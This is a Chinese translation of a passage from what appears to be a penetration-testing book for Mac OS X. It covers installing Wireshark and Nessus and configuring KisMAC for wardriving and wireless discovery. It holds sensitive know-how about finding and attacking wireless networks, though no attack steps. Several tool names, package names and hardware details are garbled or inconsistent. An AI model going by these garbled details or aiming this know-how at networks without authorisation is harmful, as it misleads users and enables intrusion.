### tcptoute

- **排名**: 59
- **URL**: `http://michael.toren.net/code/tcptoute/`
- **Mac 可用性**: DP 1.5, Fink 1.5
- **描述**: 使用 TCP 的 traceroute 实现。

# 第 5 章 • 渗透测试者的 Mac OS

## 安装与使用“大工具”

安全领域只有少数“大工具”，我们将安装其中两个：Ethereal 网络分析器和 Nessus 安全扫描器。本章的大部分内容一直致力于开发工具、包管理实用和 shell 以及各种与安全没有太关系的东西。然而，现在这些机制已经就绪，你就可以毫不费力地享受劳动成果，安装这些工具了。让我们先处理 Ethereal。

### Wireshark

Wireshark (`www.wireshark.org`) 是一款强大的网络分析器（具有非常漂亮的图形界面），它已成为任何网络安全人员的标准工具。事实上，Wireshark 变得如此流行，经常可以看到其文本版本的孪胞 tethereal 代替了 tcpdump 和 snoop 等老工具。

### 从源码在 MacOS X 上安装

在 MacOS X 上从源码编译 Wireshark 是一个漫且有时复杂的过程。然而，许多人倾向于这种方法，因为他们对包拥有控制权。我们在 MacOS X Tiger 上通过源码方法安装了 Wireshark。如果你有时间并且心勃勃，可以尝试这种安装方法；否则，请使用移植方法，如 DarwinPorts 或 Fink。如果你下载了新版本的软件，请确保在执行步骤时相应更改名称。

1. 通过安装 MacOS X CD 上的 Xcode Tools 来准备你的 Mac。这安装了编译源码所需的 gcc 编译器和其他开发工具，例如 X11 环境。如果你是运行 Tiger 系统时，在 MacOS X 安装盘 1 上找到 Xcode Tools 文件夹。双击该文件夹中的 `XcodeTools.pkg`，并按照屏幕上的指令安装 Xcode Tools。
2. 安装 X11 用户环境，它也位于你的 MacOS X 安装盘 1 上。该包位于 `System | Installation | Packages | X11User.pkg`；双击 `X11User.pkg` 并按照屏幕上的指令操作。这将 X11 应用程序安装到 `Utilities` 文件夹中。
3. 下载以下包并将它们保存到你的用户文件夹中，通常为 `/Users/username`：
   - Pkg-config `pkgconfig.freedesktop.org`
   - Gettext `www.gnu.org/software/gettext`
   - Glib `www.gtk.org/download`
   - ATK `ftp.gtk.org/pub/gtk/v2.10/dependencies`
   - Libpng `libpng.sourceforge.org`
   - Libxml `ftp://xmlsoft.org/libxml2`
   - Freetype `freetype.sourceforge.org`
   - Fontconfig `fontconfig.org`
   - Cairo `ftp.gtk.org/pub/gtk/v2.10/dependencies`
   - Pango `www.gtk.org/download`
   - Jpgsrc `ftp.gtk.org/pub/gtk/v2.10/dependencies`
   - TIFF `ftp.gtk.org/pub/gtk/v2.10/dependencies`


# 依赖软件下载链接

- GTK+ `www.gtk.org/download`
- Libcap `www.tcpdump.org`
- Wireshark `www.wireshark.org`

# 从源码编译安装 Wireshark

## 4. 启动 X11 环境

通过双击 `Utilities` 文件夹中的 X11 应用程序。这将打开一个 Xterminal 窗口。默认情况下，Xterminal 应该会将你带入 `/Users/username` 目录，你可以通过输入 `ls` 并按回车看到你刚刚下载的所有包。

## 5. 配置 PATH 环境变量

确保 `/usr/local/bin` 在你的 `$PATH` 中。如果不在，输入 `PATH=$PATH:/usr/local/bin` 并按回车来添加它。

## 6. 编译安装依赖库与 Wireshark

依次执行以下步骤编译安装各软件包（以 pkg-config 为例，其余类似）：

1. 解压：`tar xvf pkg-config-0.21.tar.gz`
2. 进入目录：`cd pkg-config-0.21`
3. 配置：`./configure`
4. 编译：`make`
5. 安装：`sudo make install`（安装时需输入 root 密码）
6. 返回上级目录：`cd ..`

需按顺序安装的软件包版本如下：

- pkg-config-0.21
- gettext-0.12.1
- glib-2.12.4
- atk-1.12.3
- libpng-1.12.12
- libxml2-2.6.27
- freetype-2.2.1
- fontconfig-2.4.1
- cairo-1.2.4
- pango-1.14.7
- jpgsrc-v6b (解压后目录为 `jpgsrc-6b`)
- tiff-3.7.4
- gtk+-2.10.6

### 19. 安装 libcap

解压：`tar xvzf libcap-0.9.5.tar.gz`
进入目录：`cd libcap-0.9.5`
配置：`./configure`
安装：`sudo make install`（安装时需输入 root 密码）
返回上级目录：`cd ..`

### 20. 安装 Wireshark

解压：`tar xvzf wireshark-0.99.4.tar.gz`
进入目录：`cd wireshark-0.99.4`
配置：`./configure`
编译：`make`
安装：`sudo make install`（安装时需输入 root 密码）
返回上级目录：`cd ..`

### 21. 运行 Wireshark

输入 `wireshark` 并按回车。图形界面（GUI）将会出现。

---

现在你已经成功地从源码构建了 Wireshark！每次你想运行 Wireshark 时，请确保运行 X11 应用程序，并在打开的 Xterminal 窗口中运行 Wireshark。Wireshark 二进制文件安装在 `/usr/local/bin`，所以如果你的环境变量 `$PATH` 中没有该目录，则你需要添加它。一旦完成所有安装，你也可以从 `/User/username` 文件夹中删除 `*.tar.gz` 文件。

SharkLauncher 是一个非常有用的工具，它可以启动 X11 环境和 Wireshark 二进制文件。你可以从 `sourceforge.net/projects/aquethereal` 下载。

# 使用 DarwinPorts 在 MacOS X 上安装 Wireshark

DarwinPorts 包含了经过修改以运行在 MacOS 上的 UNIX 软件，这被称为*移植（porting）*。DarwinPorts 自动化了为 MacOS X 及其他操作系统构建第三方软件的过程。它还跟踪了特定软件工具的所有依赖信息。它知道需要构建和安装什么，以及按什么顺序。在下载并安装 DarwinPorts 后，你可以使用它轻松地安装各种其他软件——在我们的案例中，就是 Wireshark。

## 安装步骤

### 1. 安装 Xcode Tools

通过安装 Xcode Tools 来准备你的 Mac，它位于你的 MacOS X 光盘中。这将安装 gcc 编译器以及编译源代码所需的其他开发工具，例如 X11 环境。如果你运行的是 Tiger，请在 MacOS X 安装光盘 1 上找到 **Xcode Tools** 文件夹。双击此文件夹中的 `XcodeTools.mpkg` 并按照屏幕上的指示安装 **Xcode Tools**。

### 2. 安装 X11 用户环境

安装位于 MacOS X 安装光盘 1 上的 X11 用户环境。包位于 **System | Installation | Packages | X11User.pkg**。双击 **X11User.pkg** 并按照屏幕上的指示操作。这将 X11 应用程序安装到 Utilities 文件夹中。

### 3. 下载 DarwinPorts

从 `macports.com` 下载 *DarwinPorts*。将文件复制到 `/Users/username` 文件夹。

### 4. 启动 X11 终端

双击 Utilities 文件夹中的 X11 应用程序。这将打开一个 Xterminal 窗口。默认情况下，Xterminal 应该会将你带入 `/Users/username` 目录，你可以通过 `ls` 并按 `Enter` 查看刚刚下载的包。

### 5. 编译安装 DarwinPorts

```bash
tar zxv DarwinPorts-1.3.2.tar.gz
cd DarwinPorts-1.3.2/base
./configure
make
sudo make install  # 安装完成后，根据提示输入 root 密码
cd ../
```

### 6. 配置 PATH

DarwinPorts 将二进制文件安装在 `/opt/local/bin` 目录，因此你可能需要通过输入 `PATH=$PATH:/opt/local/bin` 并按回车将其添加到 PATH 中。

### 7. 更新 Ports 索引

输入 `sudo port -d selfupdate` 并按回车更新 ports 以确保它们是最新版本。

### 8. 安装 Wireshark

输入 `sudo port install wireshark` 并按回车安装 Wireshark。DarwinPorts 将开始获取并安装相应的软件依赖项以及 Wireshark 二进制文件。

### 9. 运行 Wireshark

安装完成后，输入 `wireshark` 并按回车运行 Wireshark。GUI 现在将打开。

---

现在你已经使用 DarwinPorts 成功安装了 Wireshark！每次你想运行 Wireshark 时，请确保运行 X11 应用程序，并在打开的 XTerminal 窗口中运行 Wireshark。Wireshark 二进制文件安装在 `/usr/local/bin`，所以如果你的目录 PATH 中没有它，你将需要添加它。一旦完成所有安装，你也可以从 `/User/username` 文件夹中删除 `DarwinPorts-1.3.2.tar.gz` 文件。

# Nessus

Nessus (`www.nessus.org`) 已经成为开源漏洞扫描的事实标准。拥有良好的界面，Nessus 有两个主要组件：执行实际扫描的服务器程序（守护进程）与之交互的客户端程序。在大多数情况下，服务器和客户端位于同一台机器上，在这种情况下，服务器监听回环地址 (`127.0.0.1`)，客户端连接到该地址。客户端和服务器也可以运行在不同的机器上，此时服务器必须监听远程端口。无论哪种，Nessus 都需要身份验证以防攻击者进行未经授权的扫描。感谢 Fink，在 Mac 上安装 Nessus 非常简单。

# Underground笔记

## 渗透测试与漏洞扫描

渗透测试和漏洞扫描经常被混淆。漏洞扫描是渗透测试的一个阶段，工程师在该阶段尝试确定漏洞。漏洞扫描是一个运行扫描的工具。虽然漏洞扫描是渗透测试的关键阶段，但它们并不是一回事。

## 在 Mac 上使用 Fink 安装 Nessus

首先，运行 `/sw/bin/fink install nessus`。如下代码所示，系统会提示 X11 支持以及是否使用 SSL 版本的 lynx。由于 X11 已经安装，只需在第一个提示处回车，并在第二个提示处选择 lynx 或 lynx-ssl。在第三个提示处按回车安装 Nessus。

```
$ /sw/bin/fink install nessus
Password:
Information about 1766 packages read in 2 seconds.
fink needs help picking an alternative to satisfy a virtual dependency.
The candidates:
+   (1) nessus-common: Core package for Nessus
(2) nessus-common-nox: Core package for Nessus (No X11)
fink needs help picking an alternative to satisfy a virtual dependency.
The candidates:
+   (1) lynx: Console based web browser
(2) lynx-ssl: Console based web browser (SSL-enabled)
Pick one: [1]
The following package will be installed or updated:
nessus
The following 9 additional packages will be installed: daemonic libnet-shlibs libnas1-shlibs libniousness-shlibs libxml2-bin libxml2-shlibs lynx nessus-common-nessus-plugs
Do you want to continue? [Y/n]
```

安装 Nessus 后，运行 `/sw/sbin/nessus-adduser` 来添加 Nessus 用户账户。在 sudo 提示符处输入系统密码，然后输入你希望用于登录 Nessus 服务器的名称。选择 `pass` 作为身份验证方法是最简单、最直观的选项。在 `Login Password` 提示处输入密码，并在 `rules` 提示处按 `Ctrl + D` 以进行最基础的用户创建。在 `OK` 提示处，按回车键创建用户。以下代码显示了该会话可能的样子。

```
$ sudo /sw/sbin/nessus-adduser
Password:
Using /var/tmp as a temporary file holder
Add a new nessusd user
----------------------
Login : j0hnny
Authentication (pass/cert) [pass] :
Login password : m@xr0xmYp@ntx0rz
User rules
----------------------
nessusd 一个规则系统，允许你限制 j0hnny 有权测试的主机。例如，你可能希望让他只能扫描他自己的主机。
请参阅 nessus-adduser(8) 手页以获取规则语法，并为该用户设置规则，完成后按 ctrl-D：
(用户可以有一个空规则集)
'D
Login : j0hnny
Password : m@xr0xmYp@ntx0rz
DN:
Rules :
Is that ok ? (y/n) [y] y
user added.
$
```


接下来，运行 `/sw/sbin/nessusd -D` 来启动 Nessus 守护进程。为了启动客户端，请从 xterm 窗口（而不是 Terminal）运行 `/sw/bin/nessus &`，此时将显示 Nessus 客户端界面，如图 5.11 所示。登录 Nessus 服务器，你就可以开始工作了。

214 第5章 • 渗透测试者的 Mac OS X

# 图 5.11 Nessus 客户端界面



Nessus 拥有大量功能，尽管我们在本章中无法包含过多细节，但请务必查看 Syngress 出版的《Nessus Network Auditing》以获取有关这一优秀工具的更多细节。

www.syngress

## 总结

凭借其 BSD 运行、极其流畅的图形界面和近乎无敌的可靠性，苹果的 Mac OS X 为渗透测试提供了很好的平台。尽管许多优秀的工具是专门为 OS X 编写的，但许多开源工具可以使用 Apple 开发者工具包包含的主流编译器和解释器直接在 OS X 上编译。大量的代码也被移植到了 Mac OS X，得益于 DarwinPorts 和 Fink 等包管理器，这些工具可以相对容易地安装。许多“大工具”（如 Ethical 和 Nessus）仅需几个简单的包管理器命令即可安装。然而，在某些情况下，能够访问 Windows 和 Linux 等其他操作系统是非常有用的，微软的 VirtualPC 将这些操作系统的功能带到了 OS X 平台，使得运行非原生代码甚至基于 CD 的分发版成为可能。费力配置 Apple 开发者工具包和各种包管理器是完全值得的；这能为你提供一系列令人眼目的工具，它们在市场上最迷人的硬件上并在近乎无敌的操作系统下运行。

### 解决方案快速通道

## OS X 命令行壳

- OS X 命令行壳提供了对 Mac 常用 shell（如 `tcsh` 和 `bash`）的命令行访问。
- 许多必需的工具，如 `awk`、`sed` 和 `Perl` 作为 Mac OS X 基础标准 BSD 子系统的一部分包含在内。

## 编译和移植开源软件

- 苹果开发者工具由 Apple 免费提供，并提供了许多开发工具的使用，包括 GNU 和 C++ 编译器。
- Windows 工具包和协议可以安装在 Mac OS X 上，允许使用该界面的图形程序在 Mac 上运行。
- 移植（或修改）软件需要对代码进行细微调整，以便其能够在各种平台上运行。移植代码可能很困难，但诸如 `dselect` 和 `apt-get` 等工具以及 DarwinPorts 和 Fink 等项目使得安装软件移植变得像运行几个命令一样简单。

## 使用“前 75 个安全工具”列表

- 此列表来自 www.insecure.org 的 Fyodor，根据 nmap-hackers 列表列出了最流行的安全工具，被许多人认为是必备工具的事实标准。列表上的大多数工具可以在 Mac 上编译，或已经移植到 Mac 上，本节讨论了这些工具中的每一个，并描述了在 Mac OS 上安装每个工具的过程。

## 其他 OS X “必备”

- Ethereal (www.ethereal.com) 也许是最流行的网络协议分析器，可以轻松地安装在 OS X 上。
- Nessus (www.nessus.org) 是一个优秀的开源网络漏洞扫描器，应该是任何渗透测试者工具包的一部分。得益于软件移植的便利，安装非常简单。
- Virtual PC (www.microsoft.com/windows/virtualpc) 允许 OS X 用户以客 OS 的身份运行基于 Intel 的软件并与 OS X 同时运行。这为 Mac 平台带来了大量软件，包括 Windows 和 Linux 应用。

## 网站链接

- http://developer.apple.com/unix/index.html: Mac OS X 上的 UNIX 开发
- http://darwinports.opendarwin.org/: DarwinPorts
- http://fink.sourceforge.net/: Fink
- http://finkcommander.sourceforge.net/: Fink commander
- http://www.microsoft.com/windows/virtualpc/default.mspx: Microsoft Virtual PC
- http://insecure.org/tools.html: 前 75 个安全工具列表
- http://slagheap.net/darwin: Peter Bartoli 的实用工具
- http://slagheap.net/etherspoof: Mac 地址欺骗
- http://new.exploit.org/index:The Auditor
- http://iwhax.net: WHA Linux 发行版

### 常见问题

**Q:** 我在使用 Fink 时遇到 403 拒绝或其他奇怪的情况。我该怎么办？
**A:** 这是一个常见问题，很容易修复。运行 `fint reinstall` 或 `fupdate` 获取最新包，或者手动修改 `/etc/sources.list`。

**Q:** 如果可以在 VirtualPC 下运行移植的 Linux 发行版，为什么要费力移植工具？
**A:** VirtualPC 消耗大量资源，在 Mac 上原生运行工具要快得多。

# 第 6 章


本章解决方案：
- 使用 KisMAC WarDriving
- 使用 OS X 进行渗透测试
- 其他 OS X 工具

## 引言

凭借操作系统 X、WarDriving 和无线局域网 (WLAN) 渗透测试具有良好的支持以及多种让这些任务变得简单的工具。

本章部分描述了配置和使用 KisMAC WLAN 发现工具以成功 WarDrive 的步骤。（有关 WarDriving 的更多信息请参见第1章。）本章第二部分描述了如何使用 WarDrive 获取的信息，并详细介绍了渗透测试者如何进一步利用 KisMAC 成功渗透客户的网络。

## 使用 KisMAC WarDriving

KisMAC 是任何平台上最好的 WarDriving 和 WLAN 发现及渗透工具，可以在 http://kismac.binaivari.de/ 免费获取。大多数 WarDriving 应用提供主动模式或被动模式发现网络的能力；KisMAC 两者都有。在其他平台上，WarDriving 工具如 Kismet 和 NetStumbler 只提供发现网络的能力。KisMAC 的独特之处在于它包含了渗透测试者攻击和破解发现网络所需的功能。

### 启动 KisMAC 和初始配置

一旦下载并安装 KisMAC，它很容易使用。你需要的第一件事是加载 KisMAC，通过点击 `KisMAC` 图标来实现（见图 6.1）。习惯性的战士可能会将 KisMAC 添加到工具栏。

# 图 6.1 KisMAC



接下来，你需要配置 KisMAC 偏好并理解 KisMAC 界面。

#### 配置 KisMAC 偏好

KisMAC 界面非常直观；然而，由于其功能强大，有许多不同的配置选项可用。你需要做的第一件事是通过按下 `KisMAC | Preferences` 从 KisMAC 菜单中打开“偏好”窗口（见图 6.2）。此部分涵盖了八个可用偏好：

- 扫描 (Scanning)
- 过滤 (Filter)
- 声音 (Sounds)
- 驱动 (Driver)
- 流量 (Traffic)
- KisMAC

# 图 6.2 KisMAC 偏好



##### 扫描选项

有两个与 KisMAC 关闭时采取的操作相关的扫描选项：

- 退出时不询问保存数据
- 在关闭主窗口时终止 KisMAC

默认情况下，除非你在关闭 KisMAC 时勾选“退出时不询问保存数据”选项，否则系统会提示你保存数据文件。不勾选此选项是一个好主意，这会要求你在关闭 KisMAC 之前手动保存数据，以免意外丢失数据。第二个选项控制在关闭主窗口时 KisMAC 是否会终止运行，这取决于个人喜好。如果未勾选此框，KisMAC 将关闭但保持重新加载状态，并继续显示在工具栏中。

##### 过滤选项

过滤选项允许你指定不想包含在结果中的特定 MAC 地址（见图 6.3）。输入 MAC 地址并按添加即可启用此功能。这对于从结果中移除无线网络（例如，你的家庭网络或其他你用于攻击的测试设备）特别有用。此外，如果进行渗透测试，你可能只想在数据集中包含来自目标的流量。

# 图 6.3 过滤选项



##### 声音偏好

与 Linux 版本的 Kismet 不同（后者需要 Festival 等第三方应用），KisMAC 内置了识别无线网络服务集标识符（SSID）的功能（见图 6.4）。

# 图 6.4 Kismet 声音偏好



易于使用的下拉菜单（见图 6.5）允许你在发现等效加密加密（WEP）或 WiFi 保护访问（WPA）网络时播放不同的音效。此外，在捕获特定数量的数据包后，可以播放特定的音效，并在发现网络时用不同的语音播报网络名称或 SSID。

# 图 6.5 易用的下拉菜单允许你配置音效



> **地下笔记**

#### 选择 WLAN 网卡

KisMAC 对多种 WLAN 网卡具有内置支持。在选择网卡时，你必须确定你的目标；KisMAC 同时支持主动和被动扫描。主动扫描依靠广播信标来发现接入点；大多数 iPhone 和 Powerbook 上内置的 Airport Extreme 网卡仅在主动模式下工作。

被动扫描不依赖广播信标。在被动扫描无线网络时，你必须有一个能够进入监听模式（rfmon）的网卡。一旦网卡置于监听模式，它就可以嗅探该网卡（或其连接的天线）范围内的所有流量，并发现任何无线网络，包括那些不从信标广播的网络。

Kismet 支持主动模式下的 Airport 或 Airport Extreme 卡。Atheros、Prism2、Hermes 和 Prism GT 芯片组支持被动模式下的 Cisco 个人电脑内存协会（PCMCIA）卡。此外，基于 Prism2 芯片组的通用串行（USB）设备支持被动模式。图 6.6 显示可用芯片组的下拉菜单。表 6.2 列出了与 KisMAC 兼容的一些常用网卡和芯片组及其工作模式。

# 表 6.2 与 KisMAC 兼容的网卡

| 制造商 | 网卡 | 芯片组 | 模式 |
|---|---|---|---|
| Apple | Airport | Hermes | 被动 |
| Apple | Airport Express | Broadcom | 主动 |
| Cisco | Aironet LMC-352 | Cisco | 被动 |
| Proxim | Orinoco Gold | Hermes | 被动 |
| Genius | Senao 2511CD Plus EXT2 | Prism 2 | 被动 |
| Linksys | WPC11 | Prism 2 | 被动 |
| Linksys | WUSBB54G | Prism2 | 被动 |


> **注意**

如果你的适配器未列在表 6.2 中，请访问 http://linux-wlan.org/docs/wlan_adapters.html.tgz 获取更多列表。十二英寸的 MacBook 和所有 iBook 没有 PCMCIA 插槽，因此需要 USB 适配器（例如 Linksys WUSBB54G）才能在被动模式下工作。目前这些适配器没有外部天线接口。

# 图 6.6 支持的芯片组

- Apple, 主动模式
- Airport, 被动模式
- Atheros, 被动模式
- Cisco, 被动模式
- Prism2/Hermes, 被动模式
- PrismGT, 被动模式
- USB, 被动

##### 流量

KisMAC 还允许查看信号强度、数据包数量以及检测到的媒体控制地址（见图 6.7）。平均信号可以根据 SSID 进行调整。

# 图 6.7 流量



##### KisMAC 偏好

KisMAC 是一个内置选项，允许你与其他 KisMAC 用户共享数据。为了使用 KisMAC，你需要一个 KisMAC 账户，可以在“偏好”窗口中创建。

# 图 6.8 KisMAC



点击“立即注册”按钮打开默认浏览器（http://binervanz.de/register.php）并创建 KisMAC 账户。

# 图 6.9 KisMAC 注册窗口



要将数据发送到 KisMAC 服务器，在完成巡测后从菜单选择导出选项。除了将结果传输到服务器外，KisMAC 账户允许你搜索现有数据库。

> 在为客户操作前禁用 KisMAC，以免数据发送到公共服务器。

### 使用 KisMAC 绘图

通常，KisMAC 是一个非常直观且易用的工具；但有一个例外：绘图。使用 KisMAC 绘图最初可能会令人沮丧。本节详细介绍了在 KisMAC 中成功导入地图的步骤。

#### 导入地图

绘图的第一步是导入地图。这与许多其他 WLAN 发现应用（例如 Linux 上的 Kismet 或 Windows 上的 NetStumbler）不同，后者通常在巡测完成后生成地图。

KisMAC 需要巡测中心区域的纬经度来导入地图。这些坐标可以手动输入，但更好的方法是先连接全球定位系统（GPS）并获取信号。

#### 使用 GPS

大多数支持海洋电子协会（NMEA）输出的 GPS 设备都兼容 KisMAC。许多此类设备仅提供串口电缆。在大多数情况下，你需要购买一个串口转 USB 适配器（约 25 美元）将 GPS 连接到你的 Mac。大多数此类适配器都带有 OS X 驱动程序；因此，请确保你购买的产品包含这些驱动程序。此外，根据你的 GPS 型号，你可能可以使用 USB 线，从而消除对适配器的需求。

用于 USB 转串口适配器。GPS Store 在 http://www.thegpsstore.com/detail.asp?product_id=GL0997 销售这些电缆。

连接好 GPS 后，打开 KisMAC 偏好并选择 GPS （参见图 6.10）。如果没有自动选择，请从下拉菜单中选择 `/dev/tty.usbserial0`。

# 图 6.10 KisMAC 偏好

